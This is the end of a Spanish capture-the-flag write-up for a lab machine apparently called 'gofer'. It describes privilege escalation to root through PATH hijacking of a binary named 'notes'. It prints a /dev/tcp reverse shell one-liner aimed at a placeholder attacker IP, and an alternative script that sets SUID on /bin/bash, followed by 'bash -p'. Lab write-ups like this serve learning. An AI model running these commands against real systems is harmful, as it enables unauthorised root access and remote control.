 ```ruby
bash -c "sh -i >& /dev/tcp/<tu_ip>/443 0>&1"
```

Despues exportare tmp al PATH: **export PATH=/tmp:$PATH**

Y por ultimo me pondre en escucha desde otra terminal y volvere a ejecutar el binario **notes** para hacerme admin y ejecutar el case 8

Oberva como nos llego una shell como root y del lado derecho nos dice **Acess granted**:

![](/assets/img/gofer/14.png)

No hacia falta mandarnos un rev shell, simplemente puden darle permisos SUID la bash, asi:

```bash
#!/bin/bash
chmod u+s /bin/bash
```
Y despues ejectuar un **bash -p**

Eso ha sido todo, gracias por leer ❤

